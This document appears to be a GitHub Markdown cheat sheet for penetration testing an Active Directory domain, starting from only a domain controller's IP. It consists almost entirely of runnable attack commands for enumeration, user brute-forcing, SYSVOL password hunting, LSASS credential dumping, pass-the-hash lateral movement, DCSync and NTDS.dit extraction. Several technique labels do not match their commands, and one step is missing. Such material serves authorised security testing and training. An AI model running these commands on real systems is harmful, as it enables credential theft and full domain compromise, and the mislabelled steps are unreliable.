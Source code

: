 # **Basic Active Directory (AD) Penetration Testing Methodology**

## **Scenario:**
You have only the **IP address of the Domain Controller (DC)** and must conduct a full Active Directory pentest. This guide includes **multiple alternative techniques for each step**, ensuring redundancy. Each method is mapped to **MITRE ATT&CK Techniques (TTPs)** where applicable.

---

# **🛠 Step 1: Information Gathering (Recon) (T1595, T1592, T1590)**
**Objective:** Identify the domain name, live hosts, users, and exposed services.

### **1.1 Identify Live Hosts & Domain Name**
- **Primary Method: DNS Reverse Lookup (T1590.005)**
  ```bash
  nslookup <DC_IP>
  ```
- **Alternative Methods:**
  - **Find domain via NetBIOS (if 137/139 open) (T1590.005):**
    ```bash
    nmblookup -A <DC_IP>
    ```
  - **Identify DC using SMB (if 445 open) (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> --shares
    ```
  - **Check SSL certificates (if 443 open) (T1590.004):**
    ```bash
    openssl s_client -connect <DC_IP>:443 | grep "CN="
    ```
  - **Discover live hosts via ICMP scan (T1595.002):**
    ```bash
    fping -a -g <IP_RANGE>
    ```
  - **Enumerate domain using nbtscan (T1590.005):**
    ```bash
    nbtscan -r <IP_RANGE>
    ```
  - **Enumerate via CrackMapExec (T1590.002):**
    ```bash
    crackmapexec smb <DC_IP> -u '' -p '' --shares
    ```

---

# **📡 Step 2: Enumerating Active Directory (No Authentication) (T1590, T1592.002, T1592.004)**
**Objective:** Extract usernames, shares, and AD structure **without credentials**.

### **2.1 Enumerate Users & Domain Info**
- **Primary Method: LDAP Anonymous Bind (T1592.002)**
  ```bash
  ldapsearch -x -H ldap://<DC_IP> -s base namingContexts
  ```
- **Alternative Methods:**
  - **Extract domain name from SMB (if 445 open) (T1592.002):**
    ```bash
    smbclient -L //<DC_IP> -N
    ```
  - **Use Kerberos brute-force with common names (T1595.002):**
    ```bash
    kerbrute userenum -d corp.local --dc <DC_IP> users.txt
    ```
  - **Check printer services (for usernames in print jobs) (T1592.002):**
    ```bash
    enum4linux -a <DC_IP>
    ```
  - **Enumerate domain SID (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomusers"
    ```
  - **Using BloodHound with SharpHound (T1592.002):**
    ```powershell
    SharpHound.exe -c All
    ```

### **2.2 Enumerate Shares & GPOs**
- **Primary Method: SMB Enumeration (T1590.002)**
  ```bash
  crackmapexec smb <DC_IP> -u '' -p '' --shares
  ```
- **Alternative Methods:**
  - **Check for readable GPO files (group policies may contain creds) (T1592.004):**
    ```bash
    smbclient //DC_IP/SYSVOL -N
    ```
  - **Search for passwords in SYSVOL (T1552.006):**
    ```bash
    find . -name "*.xml" | xargs grep -i password
    ```
  - **List accessible shares manually via SMB (T1590.002):**
    ```bash
    smbmap -H <DC_IP>
    ```
  - **Enumerate domain trust relationships via RPC (T1592.002):**
    ```bash
    rpcclient -U "" <DC_IP> -c "enumdomgroups"
    ```
  - **Using BloodHound for Trust Enumeration (T1592.002):**
    ```powershell
    Invoke-BloodHound -CollectionMethod All -Verbose -OutputDirectory C:\temp
    ```

---

# **🔑 Step 3: Gaining Initial Access (T1078.002, T1557.002, T1110.003)**
**Objective:** Obtain valid credentials for a **low-privileged user**.

### **3.1 Credential Dumping via Mimikatz (T1003.001)**
- **Primary Method (Windows Elevated CMD):**
  ```powershell
  mimikatz
  sekurlsa::logonpasswords
  ```
- **Alternative Methods:**
  - **Dump credentials from LSASS using Task Manager:**
    ```powershell
    procdump -accepteula -ma lsass.exe lsass.dmp
    ```
  - **Extracting NTLM Hashes using Impacket:**
    ```bash
    secretsdump.py -just-dc corp.local/user:password@<DC_IP>
    ```
  - **Using Rubeus for Ticket Extraction (T1558.003):**
    ```powershell
    Rubeus.exe dump /format:kirbi
    ```
  
---

# **📡 Step 5: Lateral Movement (T1550.001, T1558.002, T1021.002)**
**Objective:** Expand access to **other machines in the domain**.

### **5.1 Over-Pass-the-Hash (T1550.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  sekurlsa::pth /user:user /domain:corp.local /ntlm:<HASH>
  ```
- **Alternative Methods:**
  - **Using CrackMapExec for Lateral Movement:**
    ```bash
    crackmapexec smb <DC_IP> -u user -H <NTLM_HASH>
    ```
  - **Using Evil-WinRM:**
    ```bash
    evil-winrm -i <DC_IP> -u user -H <NTLM_HASH>
    ```
  
---

# **🏆 Step 6: Domain Controller Compromise (T1003.002, T1555.003)**
**Objective:** Gain **full control over the AD environment**.

### **6.1 DCSync Attack (T1003.002)**
- **Primary Method:**
  ```powershell
  mimikatz
  lsadump::dcsync /domain:corp.local /user:Administrator
  ```
- **Alternative Methods:**
  - **Extracting NTDS.dit via Ntdsutil:**
    ```powershell
    ntdsutil "ac i ntds" "ifm" "create full c:\ntds" q q
    ```



---
